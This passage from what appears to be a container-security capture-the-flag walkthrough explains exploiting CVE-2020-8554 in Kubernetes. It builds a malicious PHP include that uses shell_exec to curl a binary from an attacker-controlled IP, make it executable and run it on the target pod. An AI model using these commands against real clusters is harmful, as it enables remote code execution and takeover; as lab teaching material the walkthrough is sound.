         </body>
        </html>
        ```

149. What this means is that if we can intercept (MitM) gibson pod's request to http://static.containersecurityctf.com/static-inclusion.php, then we'd be able to run PHP in that pod. There's a vulnerability in Kubernetes that you can read about here:

        [CVE-2020-8554](https://github.com/kubernetes/kubernetes/issues/97076)

150. Stop and think about the steps we'll need to take to exploit this:

        1. Create a `static-inclusion.php` file that the gibson can pull down and run, granting RCE.
        2. Stage a pod running a web server that serves this file.
        3. Create an ExternalIP service that redirects outbound traffic that's going to the real `static.containersecurityctf.com` to the pod we just staged.
        4. Make a request against the gibson, triggering it to pull down `static-inclusion.php`.

151. OK, so step 1 - let's create that `static-inclusion.php` file. We want the file to be a valid PHP page, so let's start by putting the `<?php` header at the top.

        ```shell
        echo '<?php' >si.php
        ```

152. Next, let's add a line that defines our URL as a variable called `$url`:

        ```shell
        echo '$url = "http://10.23.58.30:9000/mrsbin"; ' >>si.php
        ```

153. Next, have the PHP run a command to request the `mrsbin` binary from our webserver and place it in `/tmp/`:

        ```shell
        echo '$cmd = shell_exec( "curl -o /tmp/mrsbin $url"); ' >>si.php
        ```

154. Now, have the PHP run a command to make `/tmp/mrsbin` executable and run it.

        ```shell
        echo '$cmd = shell_exec( "chmod 755 /tmp/mrsbin ; /tmp/mrsbin"); ' >>si.php
        ```

155. Finally, close out the PHP file:

        ```shell
        echo '?>' >>si.php
        ```

156. Rename the file to `static-inclusion.php`:

        ```shell
        mv si.php static-inclusion.php
        ```

157. Now it's time for step 2 - we need to create a pod to serve the `static-inclusion.php` file. We have container image that we can use - it's a simple Apache webserver that listens on port 8000. A very Kubernetes-style way of putting the content (`static-inclusion.php`) in the webserver is to put that content in some sort of volume that the pod can mount. That keeps the frequently-changing content out of the container image. 
